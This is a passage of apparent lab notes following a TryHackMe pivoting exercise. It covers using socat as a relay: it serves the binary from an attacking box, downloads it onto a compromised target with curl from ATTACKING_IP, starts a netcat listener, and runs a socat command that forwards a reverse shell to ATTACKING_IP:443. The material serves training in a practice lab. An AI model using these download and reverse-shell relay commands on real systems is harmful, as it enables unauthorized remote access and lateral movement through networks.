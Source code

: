 On Kali (inside the directory containing your Socat binary):

`sudo python3 -m http.server 80`

Then, on the target:`curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME`

![https://assets.tryhackme.com/additional/wreath-network/f976be91162d.png](https://assets.tryhackme.com/additional/wreath-network/f976be91162d.png)

With the binary uploaded, let's have a look at each of the above scenarios in turn.

---

### 6.2 Reverse Shell relay

1. First let's start a standard netcat listener on our attacking box
    
    ```bash
    sudo nc -lvnp 443
    ```
    
2. Next, on the compromised server, use the following command to start the relay:
    
    ```bash
    ./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
    ```
    

From here we can then create a reverse shell to the newly opened port 8000 on the compromised server. This is demonstrated in the following screenshot, using netcat on the remote server to simulate receiving a reverse shell from the target server:

![Untitled](Pivoting%207636e/Untitled%204.png)
